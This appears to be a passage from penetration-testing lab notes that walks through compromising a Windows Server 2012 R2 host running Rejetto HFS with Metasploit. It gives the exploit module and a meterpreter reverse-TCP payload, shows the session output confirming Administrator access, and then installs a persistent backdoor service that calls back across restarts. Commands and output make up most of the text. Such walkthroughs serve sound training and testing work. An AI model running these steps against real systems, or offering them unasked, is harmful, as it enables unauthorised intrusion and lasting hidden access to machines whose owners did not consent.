 ### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Persistence

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set SESSION 1
run
```

- Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.

![Metasploit - exploit/windows/local/persistence_service](.gitbook/assets/image-20230419223324328.png)
